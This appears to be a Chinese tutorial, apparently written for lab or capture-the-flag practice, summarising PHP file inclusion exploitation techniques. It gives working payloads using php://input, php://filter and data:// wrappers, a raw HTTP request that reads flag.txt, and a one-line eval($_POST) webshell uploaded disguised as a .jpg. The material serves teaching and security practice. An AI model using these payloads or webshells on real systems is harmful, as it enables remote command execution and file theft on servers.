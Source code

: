 ## 一些常见的文件包含漏洞的利用技法总结.

文件包含漏洞在服务器端代码中主要以下述形式的$php$代码呈现:

```php+HTML
/*demo.php*/
<?php
    include($_GET['action']);
?>

```

这里我们给出一些利用漏洞的方法.

### 1.php:://input伪协议的利用

我们可以利用$php$为协议, 一般在POST参数中构造我们想要注入的$php$语句.

###### GET 参数：

```http
?action=php://input
```

###### Post 参数:

```php+HTML
<?php system("dir"); ?>
```

###### 或者:

```php+HTML
<?php echo file_get_contents("../../flag.txt");?>
```

###### http形式的完整注入payload如下:

```http
POST /labs/IncludeAttack/demo.php?action=php://input HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:123.0) Gecko/20100101 Firefox/123.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 50

<?php echo file_get_contents("../../flag.txt");?>
```

在这里, 语句

```php
file_get_contents('php://input');
```

用于直接将POST参数本身作为字符串赋值或者回显.

#### 2.结合文件上传漏洞利用

在文件上传漏洞中,我们构造木马$virus.php$:

```php
/*virus.php*/
<?php
    eval($_POST['pwd']);
?>
```

在上传过程中捕获数据包,将后缀改为 .jpg 从而绕过前端的检查, 在靶机/ 目标服务器中我们有了一份可执行的病毒文件.

我们构造payload:

###### GET参数

```http
?action=virus.jpg
```

###### POST参数

```php
pwd=system("dir");
// or pwd=system("ls -la");
// or pwd= echo file_get_contents("../../flag.txt");
```

#### 3.php://filter伪协议的利用

###### GET 参数

```http
?action=php://filter/read=convert.base64-encode/resource=../../flag.txt
```

 回显内容是该路径下文件的base64加密格式.

#### 4.任意可执行文件注入

我们在GET参数中直接注入我们想让服务器执行的php脚本, 将特殊字符替换为 %ord(byte)的格式来解析从而避免闭合问题等.

注意GET参数必须是url编码格式下的php代码.

###### GET 参数

```http
// data: text/plain,<?php system("dir");?>
?action=data%3a+text/plain,<%3fphp+system+%28"dir"%29%3b+%3f>
```

